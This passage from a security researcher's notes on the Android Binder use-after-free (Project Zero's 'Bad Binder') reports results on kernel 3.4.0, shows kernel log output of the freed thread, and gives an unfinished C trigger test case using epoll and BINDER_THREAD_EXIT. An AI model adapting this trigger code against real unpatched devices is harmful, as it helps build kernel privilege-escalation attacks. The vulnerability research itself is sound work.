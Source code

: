 https://medium.com/@alex91ar/debugging-the-samsung-android-kernel-part-3-a6a7f762fcd6

Also the offical Write up from P0 is there:

https://googleprojectzero.blogspot.com/2019/11/bad-binder-android-in-wild-exploit.html


## Update 8

It turned out my Samsung S3Neo+ with LineageOS Kernel 3.4.0 was messed up, so the behavior was only specific to my device. On other researcher device, it worked correctly, however the exploitation was not possible (the Research was not able to trigger the condition). I can assume 3.4.0 are not vulnerable.

## Update 9

That's how the situation looks like on Kernel 3.4.0

You can see that thread is freed (kfree:e2114000), but the waitlist address is different when cleaning in epoll cleanup code (e7e1bf18):

```
[  160.680907] thread->task_list:e2114030
[  160.680946] proc->task_list:e211526c
[  160.680980] kfree:e2114000
[  160.688249] p or t= c12d3c7c c12d3c7c
[  160.688261] remove wait queue:e7e1bf0c
[  160.688270] remove wait queue task list:e7e1bf18
[  160.688281] p or t= c12d3c88 c12d3c88
[  160.688290] remove wait queue:e7e1bebc
[  160.688299] remove wait queue task list:e7e1bec8
```

This is based on this test case, which only one polling it would not work, hence below I do it for 2 files:


```
#include <fcntl.h>
#include <sys/epoll.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include <stdio.h>


#define BINDER_THREAD_EXIT 0x40046208ul
#define BINDER_VERSION 0xc0046209ul

int main()
{
    int fd,fd1,fd2, epfd,epfd1;
    struct epoll_event event = { .events = EPOLLIN   };

    fd = open("/dev/binder", O_RDONLY);
    fd1 = open("/dev/random", O_RDONLY);
    epfd = epoll_create(1000);
    epfd1 = epoll_create(1000);
  

    if (epoll_ctl(epfd, EPOLL_CTL_ADD, fd, &event)) err(1, "epoll_add");
    if (epoll_ctl(epfd1, EPOLL_CTL_ADD, fd1, &event)) err(1, "epoll_add");




    ioctl(fd1, BINDER_THREAD_EXIT, NULL);

```